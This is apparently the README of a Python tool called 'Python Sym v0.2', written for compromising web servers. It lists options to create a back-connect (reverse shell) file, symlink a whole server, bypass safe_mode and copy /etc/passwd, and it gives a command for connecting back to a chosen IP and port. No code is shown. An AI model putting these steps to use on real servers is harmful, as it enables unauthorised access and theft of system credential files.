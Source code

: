 # Python-Sym-v0.2
Python Sym v0.2
Symlink & BackConnect

------------------------------------------------------------------------------------------------

    1 - BackConnect (create a back connect file)
    
    2-  Create Symlink to whole server
    
    3-  Create Symlink to a file

    PS : * if you used choices 2 or 3 we will bypass safe_mode in server
         * a passwd.txt file will created cointain /etc/passwd file
         * you will find files in "sym"

    if you are using this Script from the web, you can BackConnect by typing
    python SymConnect.py [ip] [port]
    example: python SymConnect 192.168.0.0 77
    
------------------------------------------------------------------------------------------------



All Rights Reserved @ Abdelhamid
C0ntact : https://www.linkedin.com/in/abdelhamid-ben/
